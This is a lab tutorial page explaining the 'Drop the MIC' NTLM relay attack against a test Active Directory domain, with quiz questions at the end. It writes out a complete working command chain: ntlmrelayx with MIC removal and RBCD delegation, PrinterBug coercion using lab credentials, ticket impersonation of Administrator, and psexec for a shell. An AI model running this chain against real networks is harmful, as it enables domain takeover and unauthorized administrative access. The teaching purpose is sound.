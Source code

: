 #Drop the MIC attack

This attack targets the NTLM protocol. It also relays authentication from a legitimate client to a legitimate server, but this time, the messages no longer target the SMB service, but the LDAPS service. LDAPS can be used to alter the AD database and doesn't enforce singing by default on DCs, contrary to the SMB service. The attacker hijacks NTLM authentication messages being sent to access an SMB service, and alters them to access LDAPS instead. In order to do so, they must remove the Message Integrity Code (MIC) from NTLM messages. Hence the attack's name.

This attack also makes use of two different terminals, just like the NTLM relay attack.
This attack will relay authentication from the MEMBER machine to the CAPTAIN machine, and use it to create a new computer account, as well as grant this new computer account RBCD privileges to MEMBER, which means that the new computer account can impersonate any user to access any service provided by the MEMBER machine, essentially compromising it.

First, in one terminal run:
```
ntlmrelayx.py -t ldaps://captain.polaris.local --remove-mic --add-computer removemiccomputer --delegate-access 
```

This script will relay NTLM messages that are originally meant for an SMB service to the LDAPS service from the MEMBER machine to the CAPTAIN machine, and automatically create the new computer account and grant it RBCD privileges in MEMBER.

In a second terminal, run:
```
#in the krbrelayx dir
python3 printerbug.py POLARIS/skyler.white:Password123@192.168.122.5 192.168.122.2 
```
This script uses the printer bug in order to coerce authentication from the MEMBER machine to the attacker's machine, allowing the attacker to relay MEMBER's NTLM messages to LDAPS in the DC.

Take note of the newly created computer account on the ntlmrelayx script output. You can now use this account to impersonate the Administrator to a MEMBER machine service, as per RBCD normal behavior:

```
getST.py -dc-ip 192.168.122.10 -impersonate Administrator -spn cifs/member.polaris.local polaris/removemiccomputer\$:'<passwordfromntlmscript>'
#set the KRB5CCNAME environment variable to the new ticket
export KRB5CCNAME=/your/current/directory/Administrator.ccache
#now you can access the SMB service as the Administrator user on MEMBER
psexec.py -k -no-pass member.polaris.local
whoami
```

!!! question
    What's the purpose of targetting the LDAPS service instead of the SMB service in this attack?
??? success "Answer"
    The LDAPS does not enforce signing by default, in contrary to SMB. Removing the MIC while using a service that enforces signing won't work. That's why the LDAPS service is targetted in this attack.
!!! question
    Why can we configure the newly computer account with RBCD privileges against the MEMBER machine?
??? success "Answer"
    We can configure RBCD in this manner since we're using an authenticated MEMBER connection, which can configure RBCD related to itself (Resource-Based Constrained Delegation).